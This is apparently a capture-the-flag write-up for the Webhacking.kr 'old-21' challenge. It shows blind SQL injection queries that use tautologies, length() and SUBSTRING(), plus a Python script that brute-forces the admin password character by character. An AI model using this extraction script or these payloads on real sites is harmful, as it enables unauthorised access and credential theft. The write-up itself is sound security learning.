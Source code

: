 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-21 writeup"
categories: hacking writeup web
---
```


# Introduction
Link: [https://webhacking.kr/challenge/bonus-1](https://webhacking.kr/challenge/bonus-1)

# 1st try
I know we can get some clues from the vulnerable app because it's vulnerable to Blind SQL Injection.
My first attempt was a guessing the username and password to see the output.
![Normal output](/assets/images/old-21/1.png)

And the output when injection happens

![Injected output](/assets/images/old-21/2.png)

# Getting the clue
Further tests confirmed that `admin` was the correct username. By trying the following SQL Query, we can brute force the length of the password

```sql
SELECT id, pw FROM table_name WHERE id='admin' and length(pw)=1 or '1'='1'
```
After a bit of research, I found the `SUBSTRING` function in SQL allowed us to brute force the password by comparing with every character in the printable characters.

```sql
SELECT id, pw FROM table_name WHERE id='admin' and SUBSTRING(pw, 1, 1)='a' or '1'='1'
```

I wrote a short script to automate the process:
```python
import requests, string

cookies = {
    'PHPSESSID': 'gvgm13av4uouf78ujrhlvn2qot',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.8,vi;q=0.5,ja;q=0.3',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'DNT': '1',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/bonus-1/index.php?id=admin%27+and+length%28pw%29+%3D+4+or+%271%27%3D%271&pw=a',
    # 'Cookie': 'PHPSESSID=gvgm13av4uouf78ujrhlvn2qot',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

def brute_pw_length():
    for i in range(100):
        print(f"trying {i}")
        payload = {
            'id': f"admin' and length(pw) = {i} or '1'='1",
            'pw': 'a',
        }

        response = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
        if 'fail' not in response.text:
            print(f"{i} is the one")
            return i

def brute_pw(len):
    pw = ''
    for i in range(1, len+1):
        for c in string.printable:
            payload = {
                'id': f"admin' and substring(pw, {i}, 1) = '{c}' or '1'='1",
                'pw': 'a',
            }
            r = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
            if 'fail' not in r.text:
                pw+= c
                print(f'password: {pw}')
                break

    print(f'password is: {pw}')

l = brute_pw_length()
brute_pw(l)
```

# Conclusion
A basic but useful challenge to help me getting more insights into Blind SQL Injection.